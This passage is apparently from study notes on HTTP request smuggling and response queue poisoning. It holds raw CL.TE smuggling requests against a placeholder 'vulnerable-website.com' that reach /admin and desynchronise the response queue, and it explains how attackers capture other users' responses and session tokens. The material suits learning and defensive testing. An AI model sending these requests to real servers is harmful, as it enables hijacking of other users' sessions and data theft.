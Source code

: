 ```js

0 GET /admin HTTP/1.1 Host: vulnerable-website.com Foo: bar
```

**Back-end(HTTP/1)** 
```js
POST /example HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Transfer-Encoding: chunked  
  
0  
  
GET /admin HTTP/1.1  
Host: vulnerable-website.com  
Foo: bar
```

we perform same attack with this also,

# Response Queue Poisoning
- Response queue poisoning is high savarity request smuggling attack that cause a front-end server to start mapping response from the back-end to the wrong requests
- Meands every user get response of another users

## Impact of Response Queue poisoning
- impact is Critical, one the response is poisoned, an attacker can capture other user's responses simply by issuing arbitrary follo-up requests.
- This responses may contain sensitive personal or business information/session tokens etc
- this break sites and users get different response from the server while browseing site normallly.

## How to construct Response queue poisoning attack (HTTP Desync Attack)
**Criteria for successfull response queue attack**
- TCP connection b/w front-end & back-end server is reused for multiple request/response cycles
- Attacker is able to successfully smuggle a complete, standalone request that receives its own distinct response from the back-end server
- Attack does not result in either server closing TCP connection. Genarally servers close incomming connection when they receive invalid request, since they can't determine where the request is supposed to end.


## Smuggling Complete request

- when smuggling if we supply incmoplete request, at back-end the leftover byte doesn't form valid request, this lead to close the connection but for attack we need to keep connection open
- so we supply complete request while smuggling 

**front-end(CL)**
```js
POST / HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
Content-Type: x-www-form-urlencoded\r\n  
Content-Length: 61\r\n  
Transfer-Encoding: chunked\r\n  
\r\n  
0\r\n  
\r\n  
GET /anything HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
\r\n  
GET / HTTP/1.1\r\n  
Host: vulnerable-website.com\r\n  
```